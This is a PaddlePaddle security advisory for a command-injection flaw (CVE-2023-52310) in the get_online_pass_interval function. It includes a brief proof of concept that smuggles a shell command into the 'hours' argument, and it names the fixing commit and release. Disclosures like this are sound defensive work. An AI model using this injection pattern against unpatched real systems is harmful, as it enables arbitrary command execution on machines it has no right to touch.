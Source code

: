 ## PDSA-2023-019: Command injection in get_online_pass_interval

### CVE Number

CVE-2023-52310

### Impact

Command injection in `get_online_pass_interval` which could lead to execute arbitrary commands. The PoC is as follows:

```python
from paddle.incubate.distributed.fleet.fleet_util import FleetUtil

fleet_util = FleetUtil()
online_pass_interval = fleet_util.get_online_pass_interval(
    days="{20190720..20190729}",
    hours="9;touch /home/test/aaaa",
    split_interval=5,
    split_per_pass=2,
    is_data_hourly_placed=False
)
```

### Patches

We have patched the issue in commit [1aae481dfd7d2055c801563e254f1484b974b68e](https://github.com/PaddlePaddle/Paddle/pull/60023/commits/1aae481dfd7d2055c801563e254f1484b974b68e).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by huntr.com.
